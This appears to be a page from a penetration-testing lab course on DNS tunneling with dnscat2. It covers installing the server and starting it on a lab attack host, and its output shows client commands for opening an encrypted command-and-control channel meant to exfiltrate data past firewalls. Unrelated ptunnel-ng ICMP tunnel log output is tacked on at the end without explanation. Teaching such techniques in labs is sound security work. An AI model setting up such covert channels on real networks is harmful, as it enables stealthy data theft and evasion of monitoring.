 Note: When spawning your target, we ask you to wait for 3 - 5 minutes until the whole lab with all the configurations is set up so that the connection to your target works flawlessly.


# DNS Tunneling with Dnscat2

* * *

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` ( `C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. For our testing example, we can use dnscat2 server on our attack host, and execute the dnscat2 client on another Windows host.

* * *

## Setting Up & Using dnscat2

If dnscat2 is not already set up on our attack host, we can do so using the following commands:

#### Cloning dnscat2 and Setting Up the Server

```shell
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install

```

We can then start the dnscat2 server by executing the dnscat2 file.

#### Starting the dnscat2 server

```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

```

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%